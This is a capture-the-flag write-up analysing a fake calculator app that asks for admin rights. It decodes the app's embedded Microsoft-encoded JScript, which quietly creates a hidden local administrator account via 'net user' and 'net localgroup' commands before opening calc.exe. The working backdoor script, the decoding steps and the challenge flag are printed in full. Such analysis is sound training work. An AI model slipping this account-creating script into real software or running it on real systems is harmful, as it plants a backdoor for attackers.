

## Description
Author: @JohnHammond

I got this new calculator app from my friend! But it's really weird, for some reason it needs admin permissions to run??

## Solution
Our team had two main ways to beat this task. I'll start with the easy one: using a sandbox. Obviously it was a private sandbox instance so the challenge wouldn't be leaked.

When looking at the process tree, we saw some unusual net commands happening. Normal calculators shouldn't do this. All this seemed to connect to a file named "WmZ93kfDVH.jse". We don't know where this file came from, but it looks like the calculator process (calc.exe) is executing it.

 

Lucky for us the sandbox has a feature to download files that were created during execution. So we can directly download the .jse file without having to extract it ourself from the calc.exe.
Looking at the content of that file its just some binary garbage. 
```
#@~^cQMAAA==W!x^DkKxPm`(b	7l.P1'EEBN'( /aVkDcE-	J*iWW.c7l.Px!p+@![cV+ULDtI+3Q*	-mD,0'9$DRM+2VmmncJ7-kQu'/_f&L~EB*ir0cWckUNar6`E8okUE*'x'Zk-0 bx9+6}0vENE#{'xT-u0{x'rJ#1GUYbx!+I\C.,ox`6 m4l./KN+)Ov!bO2+*[2i6WDv\m.P4'qi4@!W ^+xTOtpt_{*b	b0vtQ&@*x6Rs+	LY4#8.l3I-mD~k{c6R^4lMZW9+zO`4#R&y#'2~L{c0cmtm./W9+zYctQq*Of *'v2~Vxv0R^4mD/W9nzYc4_y#O2 *'v2~s'v0 ^4lD;GNbYv4Q&*O2 b[fpmQ'UODbxL 6DWh/4l.ZK[`cb@!@! #-`N@*@*W#bib0c43 @!6 VxoD4RF*m3'jY.r	o 0MG:;tC.;WNncv`%[8X*@!@!W#-`3@*@*yb#pkW`4_f@!6RVUoDtO8b^_{?DDrxL 6DG:;4lMZ
```
But the search for the file extension `.jse` reveals that it's a dialect of JavaScript developed by Microsoft.
So let's see how we can decode it. Luckily, most of the time we can use CyberChef to help us. To read it, we use the recipe called Microsoft Script Decoder. You can also go directly to it by using this [link](https://gchq.github.io/CyberChef/#recipe=Microsoft_Script_Decoder()JavaScript_Beautify('%5C%5Ct','Auto',true,true)&input=I0B%2BXmNRTUFBQT09VyF4XkRrS3hQbWAoYgk3bC5QMSdFRUJOJyggL2FWa0RjRS0JSippV1cuYzdsLlB/eCFwK0AhW2NWK1VMRHRJKzNRKgktbUQsMCc5JH9EUk0rMlZtbW5jSjcta1F1Jy9fZiZMfkVCKmlyMGNXY2tVTn9hcjZgRTh/b2tVRSoneCdaay0wIGJ4OSs2fTB2RSsJTkUjeyd4VC11MHt4J3JKIzFHVVlieCErSVxDLixveGA2IG00bC4vS04rKU92IWJPMisqW38yaTZXRHZcbS5QNCdxaTRAIVcgXit4VE90cHRfeypiCWIwdnRRJkAqeDZScysJTFk0Izguf2wzSS1tRH5re2M2Ul40bE1aVzkrek9gNCNSJnkjJ38yfkx7YzBjbXRtLi9XOSt6WWN0UXEqT2YgKid2Mn5WeHYwUl40bUQvVzluelljNF95I08yICondjJ%2Bcyd2MCBeNGxEO0dOf2JZdjRRJipPMiBiW39mcG1RJ1VPRGJ4TCA2RFdoLzRsLlpLW39gY2JAIUAhICMtYE5AKkAqVyNiaWIwYzQzIEAhNiBWf3hvRDRSRiptMydqWS5yCW8gME1HOjt0Qy47V05uY3ZgJVs4WCpAIUAhVyMtYDNAKkAqeWIjcGtXYDRfZkAhNlJWf1VvRHRPOGJeX3s/RERyeEwgNkRHOjs0bE1aR1t/YGBjVkwmYkAhQCF/KnVzKjgpRCtERU1VUDFSZEUoL08uYnhvdlR%2BVCM4N0MuUHMncjRub3JVLHYqYyxSLQlNMW81YiwJSklSZmAiMXdgXUJ2dWIsO15xUiZ7MlMuT2YwL3YoLFtAIShjJiJ6Un8hSX5xS00tVXwneG54OUVpN2wufgknbGNoKmktbE1%2BSycscnh/WVAhL38uUGRXXmxeYltoYnhra09EbVlXTX5FXwlfclAmbFtbcn5FeH9PUF5XXkNeb0RHO2FQQ05zcglrZEREbVlXTS8sSlcxbHNiOTpyVWIvWU1DWUtEUEpDW05yfnJtQ1ZeIH82bkpZSVxtRH4ye3grQX56bU9rN25vcjhOKzFZYEV/VV5EYndPUlV0bnNeQiNwV1dNYFxtLn47eyFwO0AhVyBzf3hMWTRSRnA7UVEqCXcgXSF4Y1ddNVl%2BVEIwbVYvfyMpMlIiRVVgSyQrREJGfjZDVmsrI3A0UkFCQUE9PV4jfkA)

With this, we get the following JavaScript that we can understand, so we can keep analysing it.
```
function a(b) {
	var c = '', d = b.split('\n');
	for (var e = 0; e < d.length; e++) {
		var f = d[e].replace(/^\s+|\s+$/g, '');
		if (f.indexOf('begin') === 0 || f.indexOf('end') === 0 || f === '')
			continue;
		var g = f.charCodeAt(0) - 32 & 63;
		for (var h = 1; h < f.length; h += 4) {
			if (h + 3 >= f.length)
				break;
			var i = f.charCodeAt(h) - 32 & 63, j = f.charCodeAt(h + 1) - 32 & 63, k = f.charCodeAt(h + 2) - 32 & 63, l = f.charCodeAt(h + 3) - 32 & 63;
			c += String.fromCharCode(i << 2 | j >> 4);
			if (h + 2 < f.length - 1)
				c += String.fromCharCode((j & 15) << 4 | k >> 2);
			if (h + 3 < f.length - 1)
				c += String.fromCharCode((k & 3) << 6 | l);
		}
	}
	return c.substring(0, g);
}
var m = 'begin 644 -\nG9FQA9WLY.3(R9F(R,6%A9C$W-3=E,V9D8C(X9#<X.3!A-60Y,WT*\n`\nend';
var n = a(m);
var o = [
	'net user LocalAdministrator ' + n + ' /add',
	'net localgroup administrators LocalAdministrator /add',
	'calc.exe'
];
var p = new ActiveXObject('WScript.Shell');
for (var q = 0; q < o.length - 1; q++) {
	p.Run(o[q], 0, false);
}
p.Run(o[2], 1, false);
```
We see that the variable 'n', which is the password for the new admin being added by the strange net commands we saw before, is the result of decoding the string in variable 'm' by using the 'a' function. So, we just need to decode the 'm' string. Instead of doing that manually, we can change the script to print us the 'n' variable after the string is decoded. Also, we should delete all the malicious commands that would create a new admin on our system.
Printing the password using `WScript.Echo(n);` we get the flag printed out.

Flag: `flag{9922fb21aaf1757e3fdb28d7890a5d93}`

### Alternative Solution
Another way to do this, instead of using the sandbox, is to check the output of DIE (Detect It Easy). This tells us that the exe was built using AutoIt 3.4.9. We can find online that there is a tool to change exes back into AutoIt files, and it's called Exe2Aut.exe. After we use that, we get an AutoIt script file that we can read normally with a text editor. In line 13 of the script, we find a string that is base64 encoded.

`I0B+XmNRTUFBQT09VyF4XkRrS3hQbWAoYgk3bC5QMSdFRUJOJyggL2FWa0RjRS0JSippV1cuYzdsLlB/eCFwK0AhW2NWK1VMRHRJKzNRKgktbUQsMCc5JH9EUk0rMlZtbW5jSjcta1F1Jy9fZiZMfkVCKmlyMGNXY2tVTn9hcjZgRTh/b2tVRSoneCdaay0wIGJ4OSs2fTB2RSsJTkUjeyd4VC11MHt4J3JKIzFHVVlieCErSVxDLixveGA2IG00bC4vS04rKU92IWJPMisqW38yaTZXRHZcbS5QNCdxaTRAIVcgXit4VE90cHRfeypiCWIwdnRRJkAqeDZScysJTFk0Izguf2wzSS1tRH5re2M2Ul40bE1aVzkrek9gNCNSJnkjJ38yfkx7YzBjbXRtLi9XOSt6WWN0UXEqT2YgKid2Mn5WeHYwUl40bUQvVzluelljNF95I08yICondjJ+cyd2MCBeNGxEO0dOf2JZdjRRJipPMiBiW39mcG1RJ1VPRGJ4TCA2RFdoLzRsLlpLW39gY2JAIUAhICMtYE5AKkAqVyNiaWIwYzQzIEAhNiBWf3hvRDRSRiptMydqWS5yCW8gME1HOjt0Qy47V05uY3ZgJVs4WCpAIUAhVyMtYDNAKkAqeWIjcGtXYDRfZkAhNlJWf1VvRHRPOGJeX3s/RERyeEwgNkRHOjs0bE1aR1t/YGBjVkwmYkAhQCF/KnVzKjgpRCtERU1VUDFSZEUoL08uYnhvdlR+VCM4N0MuUHMncjRub3JVLHYqYyxSLQlNMW81YiwJSklSZmAiMXdgXUJ2dWIsO15xUiZ7MlMuT2YwL3YoLFtAIShjJiJ6Un8hSX5xS00tVXwneG54OUVpN2wufgknbGNoKmktbE1+Sycscnh/WVAhL38uUGRXXmxeYltoYnhra09EbVlXTX5FXwlfclAmbFtbcn5FeH9PUF5XXkNeb0RHO2FQQ05zcglrZEREbVlXTS8sSlcxbHNiOTpyVWIvWU1DWUtEUEpDW05yfnJtQ1ZeIH82bkpZSVxtRH4ye3grQX56bU9rN25vcjhOKzFZYEV/VV5EYndPUlV0bnNeQiNwV1dNYFxtLn47eyFwO0AhVyBzf3hMWTRSRnA7UVEqCXcgXSF4Y1ddNVl+VEIwbVYvfyMpMlIiRVVgSyQrREJGfjZDVmsrI3A0UkFCQUE9PV4jfkA=`

When we decode that string, we get the binary data of the .jse file we talked about before. Decoding it again and then using `WScript.Echo(n);` we can print the flag.

---
**Dombusters**: _Writeup written by Sir_X_
